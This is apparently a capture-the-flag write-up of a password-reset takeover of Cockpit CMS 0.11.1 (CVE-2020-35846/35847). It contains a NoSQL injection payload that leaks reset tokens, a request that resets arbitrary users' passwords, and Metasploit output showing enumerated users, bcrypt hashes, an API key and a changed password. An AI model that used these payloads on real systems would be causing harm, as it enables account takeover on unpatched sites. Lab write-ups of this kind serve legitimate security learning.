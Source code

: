 We can change the password of admin using this CVE. We first need to get a reset token for the user we want to change the password
We can achieve that using this command to /auth/resetpassword uri:
`{ 'token' : { '$func' : 'var_dump' } }`

We then get a reset token
`rp-8070385923502d710d87f00b60a67193610d5de20d873` 
which we can use at /auth/resetpassword like this
`{ "token" : "rp-8070385923502d710d87f00b60a67193610d5de20d873","password":"test123" }`
### This process can help us reset any user we want. Let's make a python script to automate it.
So i automated the steps in a python script pretty easily and with a single execution we should have custom creds for any user we want!
Just execute `python3 exploit_cockpit_0.11.1.py` and watch it hack the cms for you :P

### Metasploit module results:

For Admin
```
[*] Started reverse TCP handler on 10.8.135.205:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23"]
[*] Checking token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*] Obtaining user info
[*]   user: admin
[*]   name: Admin
[*]   email: admin@yourdomain.de
[*]   active: true
[*]   group: admin
[*]   password: $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*]   i18n: en
[*]   _created: 1621655201
[*]   _modified: 1621655201
[*]   _id: 60a87ea165343539ee000300
[*]   _reset_token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*]   md5email: a11eea8bf873a483db461bb169beccec
[+] Changing password to 5vOeafyK23
[+] Password update successful
```
For Skiddy
```
[*] Started reverse TCP handler on 10.8.135.205:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[*] Obtaining reset tokens (CVE-2020-35847)
[*] Attempting to generate tokens
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-965b71dcb790d2d0a9924f9d0c204ea0610d4a41292c6"]
[*] Checking token: rp-965b71dcb790d2d0a9924f9d0c204ea0610d4a41292c6
[*] Obtaining user info
[*]   user: skidy
[*]   email: skidy@tryhackme.fakemail
[*]   active: true
[*]   group: admin
[*]   i18n: en
[*]   api_key: account-21ca3cfc400e3e565cfcb0e3f6b96d
[*]   password: $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
[*]   name: Skidy
[*]   _modified: 1621719311
[*]   _created: 1621719311
[*]   _id: 60a9790f393037a2e400006a
[*]   _reset_token: rp-965b71dcb790d2d0a9924f9d0c204ea0610d4a41292c6
```